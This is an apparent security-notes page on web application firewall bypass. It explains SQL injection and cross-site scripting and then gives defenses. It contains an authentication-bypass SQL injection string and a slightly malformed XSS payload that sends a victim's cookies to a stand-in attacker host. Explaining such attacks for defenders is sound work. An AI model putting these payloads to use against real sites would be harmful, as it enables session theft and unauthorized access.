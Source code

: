 # WAF Bypass


# 👉 Overview

---

### 👀 What ?

Web Application Firewall (WAF) Bypass is a technique used by threat actors to circumvent security measures put in place to protect web applications. Fundamentally, a WAF is a protection tool that sits between a web application and the internet. It operates by analysing HTTP requests to identify and mitigate potential attacks.


### 🧐 Why ?

Understanding WAF Bypass is critical as it underlines the importance of robust and comprehensive cybersecurity defenses. Web applications are frequently targeted by attackers due to their broad exposure to the internet, and the potential for high-value data theft. A WAF can help protect against such attacks, but if a WAF Bypass technique is successfully deployed, the security layer provided by the WAF is effectively nullified.


### ⛏️ How ?

To use or implement WAF Bypass techniques, a deep understanding of the WAF's rules and logic is required. This often involves extensive reconnaissance to identify potential weaknesses. Once these have been identified, various techniques such as input obfuscation, HTTP verb tampering, or cookie manipulation can be used to attempt to bypass the WAF. It's crucial to note that these techniques are typically used by threat actors and their use may be illegal.


### ⏳ When ?

The practice of WAF Bypass has been in use since the inception of WAF technology itself. As long as there have been defenses, there have been those seeking to bypass them. The sophistication and effectiveness of WAF Bypass techniques have evolved in tandem with the WAF technology itself.


# ⚙️ Technical Explanations

---

Web Application Firewall (WAF) Bypass techniques exploit the logic that a WAF uses to identify and block malicious traffic. By manipulating this logic, threat actors can allow their harmful requests to pass through to the web application, effectively bypassing the security measures in place.

One common method used for WAF Bypass is SQL Injection. In this technique, threat actors manipulate SQL queries by inserting malicious code. This could involve altering existing queries or adding new ones that lead to unintended actions, such as unauthorized data access or modification. If the WAF isn't properly configured to recognize this abnormal behaviour, it may allow the malicious request to pass through.

Another technique used in WAF Bypass is Cross-Site Scripting (XSS). This involves an attacker injecting malicious scripts into trusted websites. These scripts are often designed to steal sensitive data from users or perform other harmful actions. If the WAF isn't programmed to block such scripts, they may make it through to the web application.

To mitigate these threats, it's crucial to regularly update and configure the WAF based on the current threat landscape. This involves staying informed about common WAF Bypass techniques and ensuring the WAF rules and logic are robust enough to block them. Regularly testing the WAF's effectiveness using techniques such as penetration testing or employing threat intelligence services can also be beneficial.

Moreover, it's important to note that WAFs should not be the only line of defense. They should be used as part of a layered security approach that includes other measures such as secure coding practices, intrusion detection systems, and regular security audits.

For example, consider a web application that uses a simple SQL query to authenticate users:

```sql
SELECT * FROM users WHERE username ='"+ username +"' AND password ='"+ password +"'

```

Suppose a threat actor enters `' OR '1'='1` as the username and password. The SQL query becomes:

```sql
SELECT * FROM users WHERE username ='' OR '1'='1' AND password ='' OR '1'='1'

```

This query will always return true, allowing the attacker to bypass the authentication process.

For Cross-Site Scripting (XSS), suppose a web application displays user comments without proper sanitization. An attacker could enter a comment like:

```html
<scriptdocument.location='http://malicious.com?cookie='+document.cookie;</script

```

This script, when rendered by the browser, would send the user's cookies to the attacker's server.

The WAF should recognize these as threats. If not, it may be due to outdated rules or misconfiguration. Regular updates and thorough testing can help prevent such bypasses.

For the SQL Injection example, using parameterized queries or prepared statements can help. For the XSS example, sanitizing user inputs and implementing a Content Security Policy (CSP) can be effective.

Remember, WAF is just one layer of protection. Other security measures should also be in place.
